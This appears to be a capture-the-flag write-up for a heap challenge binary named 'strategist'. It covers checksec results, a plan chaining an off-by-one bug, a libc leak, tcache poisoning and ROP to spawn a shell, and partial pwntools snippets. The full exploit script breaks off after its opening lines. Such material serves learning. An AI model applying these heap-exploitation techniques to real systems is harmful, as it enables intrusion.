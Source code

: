             <h2>Initial Analysis</h2>
            <h5>Checksec Findings</h5>
            <pre><code class="language-bash">checksec --file=strategist</code></pre>
        <h3>Security Features</h3>
        <ul>
            <li><b><code>PIE enabled</code>:</b> ASLR is in place, so we need an information leak.</li>
            <li><b><code>NX enabled</code>:</b> We cannot execute shellcode on the stack.</li>
            <li><b><code>Partial RELRO</code>:</b> Some GOT entries might be writable.</li>
        </ul>
<pre><code class="language-bash">RELRO           STACK CANARY      NX            PIE             
Partial RELRO   No Canary        NX enabled    PIE enabled</code></pre>
</div>
        <div class="section-content">
            <h3>Exploitation Plan:</h3>
            <ol>
                <li><b>Trigger an Off-by-One Bug:</b> Use `edit_plan()` to overwrite heap metadata.</li>
                <li><b>Leak a Libc Address:</b> Free a chunk into the **unsorted bin** and read its metadata.</li>
                <li><b>Perform Tcache Poisoning:</b> Corrupt the tcache freelist to allocate memory at controlled addresses.</li>
                <li><b>Hijack Execution Flow:</b> Use **ROP (Return-Oriented Programming)** to execute `system("/bin/sh")`.</li>
            </ol>
        </div>
        <div class="section-content">
            <h3>Exploit Development</h3>
            <h4>Step 1: Allocate and Free Chunks</h4>
            <pre><code class="language-python">create(r, 24, b'A' * 23)  # Chunk A
create(r, 24, b'B' * 23)  # Chunk B
create(r, 0x50, b'C' * 24)  # Chunk C
create(r, 0x50, b'/bin/sh\x00')  # Chunk D
</code></pre>
            <h4>Step 2: Corrupt Heap Metadata</h4>
            <pre><code class="language-python">edit(r, 1, b'B' * 24 + p8(0xc1))  # Overwrite next chunk's size</code></pre>
            <h4>Step 3: Leak a Libc Address</h4>
            <pre><code class="language-python">delete(r, 2)
leaked = create(r, 80, b'')
libc_base = u64(leaked.ljust(8, b'\x00')) - libc.symbols['main_arena']
print(f"Libc base: {hex(libc_base)}")</code></pre>
            <h4>Step 4: Tcache Poisoning & ROP</h4>
            <pre><code class="language-python"># Use tcache poisoning to hijack execution and gain shell</code></pre>
        </div>
        <div class="section-content">
            <div class="h4-wrapper">
        <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python">#!/usr/bin/env python3

from pwn import *

exe = ELF("strategist")
libc = ELF("glibc/libc.so.6")
ld = ELF("glibc/ld-linux-x86-64.so.2")
context.binary = exe
idx = 1
